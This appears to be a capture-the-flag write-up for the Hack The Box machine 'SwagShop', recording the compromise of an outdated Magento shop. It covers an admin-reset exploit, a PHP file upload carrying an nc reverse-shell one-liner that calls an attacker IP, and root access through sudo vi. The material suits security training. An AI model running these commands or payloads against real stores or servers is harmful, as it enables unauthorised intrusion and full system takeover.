








`Box: Linux`
`Level: Easy`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap Enumeration`](#`Initial%20Nmap%20Enumeration`)
3. [`Web Enumerations`](#`Web%20Enumerations`)
	1. [`Magento Shoplift Vulnerability`](#`Magento%20Shoplift%20Vulnerability`)
	2. [`Failed to perform Magento CE < 1.9.0.1 - (Authenticated) RCE`](#`Failed%20to%20perform%20Magento%20CE%20<%201.9.0.1%20-%20(Authenticated)%20RCE`)
	3. [`Method 1: Creating Misconfiguration in Magento Application`](#`Method%201%20Creating%20Misconfiguration%20in%20Magento%20Application`)
	4. [`Method 2: Simple Backdoor'ed Magento Package`](#`Method%202%20Simple%20Backdoor'ed%20Magento%20Package`)
4. [`Privilege Escalation`](#`Privilege%20Escalation`)
	1. [`LinPeas Findings`](#`LinPeas%20Findings`)
	2. [`LinEnum Findings`](#`LinEnum%20Findings`)
	3. [`Gettting a Root Shell using vi`](#`Gettting%20a%20Root%20Shell%20using%20vi`)

### `Box Info`
```
SwagShop is an easy difficulty linux box running an old version of Magento. The version is vulnerable to SQLi and RCE leading to a shell. The www user can use vim in the context of root which can abused to execute commands.
```
### `Initial Nmap Enumeration`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.140
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Home page
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### `Web Enumerations`
```
# gobuster dir -u http://10.10.10.140/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c 404
/media                (Status: 301) [Size: 312] [--> http://10.10.10.140/media/]
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.140/includes/]
/lib                  (Status: 301) [Size: 310] [--> http://10.10.10.140/lib/]
/app                  (Status: 301) [Size: 310] [--> http://10.10.10.140/app/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.140/js/]
/shell                (Status: 301) [Size: 312] [--> http://10.10.10.140/shell/]
/skin                 (Status: 301) [Size: 311] [--> http://10.10.10.140/skin/]
/var                  (Status: 301) [Size: 310] [--> http://10.10.10.140/var/]
/errors               (Status: 301) [Size: 313] [--> http://10.10.10.140/errors/]
/mage                 (Status: 200) [Size: 1319]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
```

I tried https://github.com/steverobbins/magescan but It didn't work. I was trying to find out the Magento Version. I also explore some of the files from the above folder and there was nothing interesting comes out of it.

This is how I figured out how to use the correct exploit from Exploit-DB.


The Web footer reveals that this Magento is setup from the Year 2014. So any Exploit that Exploit-DB has 'Before' the year 2014 is technically not usable. (One of My Discord Connection mentioned it to me while discussing about finding exploits.).

###### `Magento Shoplift Vulnerability`
While Digging, I found that this Magento version might be vulnerable to [Magento Shoplift exploit](https://www.exploit-db.com/exploits/37977). While looking at the exploit, I found the admin login page.

`http://swagshop.htb/index.php/admin/`


Okay so we have this endpoint. I tried couple of default credentials. but those didn't work. Than I tried out the [Magento Shoplift Exploit](https://www.exploit-db.com/exploits/37977) which basically reset the username and password for this admin panel.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Swagshop.htb]
└─# python2 37977.py 
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```

Now my credentials for this portal is set to `forme`. 


###### `Failed to perform Magento CE < 1.9.0.1 - (Authenticated) RCE`

Once logged in, I notice that we are running Magento Version `1.9.0.0` and I immediately tried out [Magento CE < 1.9.0.1 - (Authenticated) RCE](https://www.exploit-db.com/exploits/37811) However, It was not working. Here are my troubleshooting tips. If it work for you.

**Error 1: more than one control matching name 'login[username]'**

In this case, you will modify the exploit and change the use the following lines.
```
#br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
#br.form.fixup()
#br['login[username]'] = username
#br['login[password]'] = password

userone = br.find_control(name="login[username]", nr=0)
userone.value = username
pwone = br.find_control(name="login[password]", nr=0)
pwone.value = password
```

Comment out the four lines that points to the username field and use the last four line. The `Mechanize.Browswer` Library is somehow finding multiple `login[username]` field on the web form. However, If you manually verify it by looking at the login source code, you will not see that. So the index parameter must be used to select the correct one.  Now once you fixed it and if it worked grate. 

**Error 2: Cannot use string pattern on a bytes-like object**


This you can fix by simply editing one line in the code.
```
content = request.read()
content = request.read().decode('utf-8')
```

But than I was getting another error 

```
──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Swagshop.htb]
└─# python3 37811.py 'http://10.10.10.140/index.php/admin' "whoami"
Traceback (most recent call last):
  File "/home/ringbuffer/Downloads/Linux-Boxes/Swagshop.htb/37811.py", line 68, in <module>
    url = url.group(1)
          ^^^^^^^^^
AttributeError: 'NoneType' object has no attribute 'group'
```

Upon doing google/some discord discussion, it is due to the code has a searching pattern `ajaxBlockUrl = ` Which occur on a different page `/admin/dashboard` but to redirect to that page first you need to authenticate. So I failed to modify this exploit to work. But I will be coming back to this one later.

###### `Method 1: Creating Misconfiguration in Magento Application`

The another path to get into system is to create a misconfiguration since we have an admin access. Once you login as an admin with `forme:forme`, click on the **Catalog --> Manage Product**. If there is no product than you can add new one. But in our case, We have 3 products listed already. now pick any one product and **Click Edit**. From the Left menu Select **Custom Options --> Add New Custom Option --> Provide any title and --> Allowed File Extension to `.php`**


Now visit `http://swagshop.htb/` and select the same product.



Now you can upload a PHP Shell here. I will use `callmeback.php` which I have used earlier for[ Nibble.htb](obsidian://open?vault=Windows-HTB-Boxes&file=Nibbles%20HTB) & [Friendzone.htb](obsidian://open?vault=Windows-HTB-Boxes&file=Friendzone%20HTB)
```
# cat callmeback.php                                                       
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f"); ?>
```

And than Add the Product to Card so that our file get uploaded. I removed the `GIF` Signature from the top for this `callmeback.php` file. The uploaded shell can be found at `/media/custom_options/quote/c/a`.



On the NetCat Side,
```
# nc -lvnp 4444      
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.140] 41202
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

###### `Method 2: Simple Backdoor'ed Magento Package`

The GitHub Repo [Lavalamp_Magento](https://github.com/lavalamp-/LavaMagentoBD) can be used to get the same reverse shell. Something I read on the GitHub Repo.
```
Upload the lavalamp_magento_bd.tgz file to a Magento Connect instance and then navigate to /index.php/lavalamp/index. The shell is a simple command shell that will take $_POST['c'], pass it to shell_exec, and echo back the contents. Nothing fancy.
```

Apparently, this box was earlier vulnerable to this method however, upon doing it again, It was not. But worth to record the method here.

```
www-data@swagshop:/home/haris$ cat user.txt
cat user.txt
6f8839fade95*********************
```
Grab your user flag.

### `Privilege Escalation`

###### `LinPeas Findings`
```
OS: Linux version 4.15.0-213-generic (buildd@lcy02-amd64-079) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #224-Ubuntu SMP Mon Jun 19 13:30:12 UTC 2023
Sudo version 1.8.21p2 
```

###### `LinEnum Findings`
```
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*


[+] Possible sudo pwnage!
/usr/bin/vi
```

###### `Gettting a Root Shell using vi`

```
www-data@swagshop:/tmp$ sudo -l   
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

So Technically we can create any file on `/var/www/html/` directory. We are going to create the following file.
```
www-data@swagshop:/tmp$ sudo vi /var/www/html/get_me_root
sudo vi /var/www/html/get_me_root
:shellhell=/bin/bash
:shell
root@swagshop:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```

One more way

```
www-data@swagshop:/tmp$ sudo vi /var/www/html/GetMeAnotherRoot -c ':!/bin/sh'
"/var/www/html/GetMeAnotherRoot" [New File]
:!/bin/sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
```